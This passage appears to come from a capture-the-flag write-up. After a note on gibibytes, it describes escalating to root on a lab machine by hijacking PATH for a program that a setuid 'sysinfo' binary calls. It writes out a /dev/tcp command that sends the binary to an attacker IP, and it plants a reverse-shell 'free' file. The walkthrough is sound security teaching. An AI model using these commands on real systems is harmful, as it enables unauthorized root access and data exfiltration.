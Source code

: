 These units of measurement are based on 1024 rather than 1000. Storage is created using these measurements, so it is more accurate to the physical hardware. Marketing departments like to round this number to 1000 and use the standard kilo-, mega-, and giga-, etc. because it makes the storage size seem bigger, without actually lying! This is why your "500GB" hard drive only shows 465.661287 \(or so\) in the OS. Sneaky...

hint: you can use the Bing in-search calculator to convert between the two measurements by typing `convert 500GB to gibibytes`.

I decided to exfiltrate the `sysinfo` program see how it worked. `theseus@ubuntu:/dev/shm$ cat /bin/sysinfo > /dev/tcp/10.10.15.57/8099`

![](/assets/img/10-free-ghidra.png)

By examining the program sysinfo in `ghidra` I could see that it called multiple other programs, similar to a bash script. The problem with this program was that it called these external programs only by name, and did not use the full absolute paths. This can allow a malicious attacker \(or even a friendly neighborhood security researcher!\) to create their own program in a folder that exists in the PATH earlier than the real one \(or one could simply prepend a folder of their choosing to the PATH environment variable!\)

`lshw, fdisk, free, cat /proc/cpuinfo`

I decided to create my own `free` file, which hosted my reverse shell from earlier to see if I could get `sysinfo` to run it as `root`.  
I had to add my working folder to the PATH, and then `theseus@ubuntu:/tmp$ export PATH=/dev/shm:$PATH`

I also had to make sure to make the file was executable by root \(`+x` makes it executable for everyone unless you specify a UGO category\).  
`theseus@ubuntu:/tmp$ chmod +x free`

### Getting a shell
